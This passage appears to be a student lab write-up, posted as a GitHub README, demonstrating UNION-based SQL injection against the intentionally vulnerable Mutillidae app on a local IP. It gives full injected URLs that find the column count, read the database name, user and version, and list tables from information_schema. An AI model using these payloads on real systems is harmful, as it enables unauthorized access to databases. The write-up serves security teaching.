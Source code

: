 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


![11](https://github.com/sivaram-R/sqlinjection/assets/121165794/aa1be39c-051d-48ba-8520-8154a4bc5d28)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![10](https://github.com/sivaram-R/sqlinjection/assets/121165794/dcffabe8-94f4-47dd-a206-42aa94b7c4e6)


When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![Screenshot 2023-06-10 224928](https://github.com/praveenst13/sqlinjection/assets/118787793/86073e2f-937b-47a4-9b9d-c0c2863b2a7c)


 As it is having 5 columns the query worked fine and it provides the correct result

![13](https://github.com/sivaram-R/sqlinjection/assets/121165794/0f09907c-7348-4fb1-b0cc-49ed02d0682e)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![14](https://github.com/sivaram-R/sqlinjection/assets/121165794/786497cf-b771-4af1-9115-de4ca3517600)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![15](https://github.com/sivaram-R/sqlinjection/assets/121165794/8cff5bb3-55ba-4c66-84ea-f548ff22b730)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![16](https://github.com/sivaram-R/sqlinjection/assets/121165794/790f0c4b-7812-4fb2-b1a4-33223415edd2)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.
![17](https://github.com/sivaram-R/sqlinjection/assets/121165794/91618169-90e2-464c-9136-c12bfed688e8)

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![18](https://github.com/sivaram-R/sqlinjection/assets/121165794/5f6063fc-ac99-4078-a81e-6dca2a71f34b)

![19](https://github.com/sivaram-R/sqlinjection/assets/121165794/58a4158f-904c-437d-a911-8c5a10853db9)
